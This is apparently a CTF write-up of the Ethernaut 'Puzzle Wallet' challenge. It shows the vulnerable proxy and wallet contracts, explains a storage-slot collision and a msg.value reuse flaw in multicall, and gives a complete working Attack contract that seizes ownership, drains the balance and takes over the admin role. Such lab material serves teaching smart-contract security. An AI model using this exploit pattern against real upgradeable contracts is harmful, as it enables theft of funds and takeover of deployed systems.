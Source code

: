 ## Challenge
~~~
Nowadays, paying for DeFi operations is impossible, fact.

A group of friends discovered how to slightly decrease the cost of performing multiple transactions by batching them in one transaction, so they developed a smart contract for doing this.

They needed this contract to be upgradeable in case the code contained a bug, and they also wanted to prevent people from outside the group from using it. To do so, they voted and assigned two people with special roles in the system: The admin, which has the power of updating the logic of the smart contract. The owner, which controls the whitelist of addresses allowed to use the contract. The contracts were deployed, and the group was whitelisted. Everyone cheered for their accomplishments against evil miners.

Little did they know, their lunch money was at risk…

  You'll need to hijack this wallet to become the admin of the proxy.

  Things that might help:

- Understanding how `delegatecall` works and how `msg.sender` and `msg.value` behaves when performing one.
- Knowing about proxy patterns and the way they handle storage variables.
~~~
## Contract
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "../helpers/UpgradeableProxy-08.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData)
        UpgradeableProxy(_implementation, _initData)
    {
        admin = _admin;
    }

    modifier onlyAdmin() {
        require(msg.sender == admin, "Caller is not the admin");
        _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    modifier onlyWhitelisted() {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
        require(address(this).balance == 0, "Contract balance is not 0");
        maxBalance = _maxBalance;
    }

    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    function deposit() external payable onlyWhitelisted {
        require(address(this).balance <= maxBalance, "Max balance reached");
        balances[msg.sender] += msg.value;
    }

    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success,) = to.call{value: value}(data);
        require(success, "Execution failed");
    }

    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success,) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```
`

## Solution

Storage slots between the proxy contract and the implementation contract are not aligned: 
`pendingAdmin -> owner`
`admin -> maxBalance`

`admin` cannot be changed because the `approveNewAdmin()` function is guarded by the `onlyAdmin` modifier
`pendingAdmin` can be changed via the `proposeNewAdmin()` function thus allowing us to execute the code in PuzzleWallet with `owner = pendingAdmin`

Since we can now execute the  code in PuzzleWallet with `owner = pendingAdmin`, we can execute `addToWhitelist()` and pass `onlyWhitelisted` check in other PuzzleWallet functions.

In order to become the admin we need to change the value stored at slot 1(admin at proxy contract or maxBalance in wallet contract). `setMaxBalance()` would do the work, but in order to execute it we need to pass the check `address(this).balance == 0`, but `deposit()` and `execute()` allows us to withdraw only what we have deposited. Then we need to somehow change the value of `balances[<our_address>]` which is used to check how much we have deposited.

Only function left is `multicall()` - it accepts `bytes` array with every element different call data. There is a check if deposit is called more than once - this is because we only send `msg.value` once and it should not be used multiple times to call the `deposit()` function since it would break the correlation between the real value deposited and the one marked in `balances`

For this reason we can call `multicall()` with array of multicall data which internally call the `deposit()` function.

EOA -> PuzzleProxy -> PuzzleWallet.multicall(\[multicall data\], \[multicall data\], \[multicall data\], \[multicall data\])
										|                       	|                       	|	      	                     |	
						multicall(deposit data)    multicall(deposit data)  multicall(deposit data)     multicall(deposit data)
						
with `delegatecall()` in `multicall()` the `msg.sender` and `msg.value` are preserved


```
interface IWallet {
    function admin() external view returns (address);
    function proposeNewAdmin(address _newAdmin) external;
    function addToWhitelist(address addr) external;
    function deposit() external payable;
    function multicall(bytes[] calldata data) external payable;
    function execute(address to, uint256 value, bytes calldata data) external payable;
    function setMaxBalance(uint256 _maxBalance) external;
}

contract Attack {
    constructor(IWallet wallet) payable {
        // overwrite wallet owner
        wallet.proposeNewAdmin(address(this));
        wallet.addToWhitelist(address(this));

        bytes[] memory deposit_data = new bytes[](1);
        deposit_data[0] = abi.encodeWithSelector(wallet.deposit.selector);

        bytes[] memory data = new bytes[](2);
        // deposit
        data[0] = deposit_data[0];
        // multicall -> deposit
        data[1] = abi.encodeWithSelector(wallet.multicall.selector, deposit_data);
        wallet.multicall{value: 0.001 ether}(data);

        // withdraw
        wallet.execute(msg.sender, 0.002 ether, "");

        // set admin
        wallet.setMaxBalance(uint256(uint160(msg.sender)));

        require(wallet.admin() == msg.sender, "hack failed");
        selfdestruct(payable(msg.sender));
    }
}

```

## Key takeaways and useful resources

[Smart Contract Programmer video about upgradeable proxy](https://www.youtube.com/watch?v=xluCHy_HB-4)

[OZ Proxy patterns article](https://blog.openzeppelin.com/proxy-patterns)